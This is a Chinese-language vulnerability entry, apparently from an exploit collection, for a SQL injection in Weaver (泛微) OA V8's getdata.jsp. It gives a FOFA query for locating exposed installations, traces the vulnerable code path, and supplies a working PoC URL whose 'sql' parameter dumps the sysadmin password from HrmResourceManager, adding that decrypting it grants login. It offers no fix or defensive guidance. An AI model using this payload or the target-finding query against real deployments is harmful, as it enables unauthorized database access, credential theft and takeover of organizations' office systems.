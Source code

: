 # 泛微OA V8 getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

```
泛微OA V8
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :** 

方法处理

![image-20220209104257902](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091042978.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![image-20220209104319947](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091043985.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![image-20220209104335191](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091043319.png)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![image-20220209104351654](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091043694.png)解密后即可登录系统

![image-20220209104408461](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091044509.png)
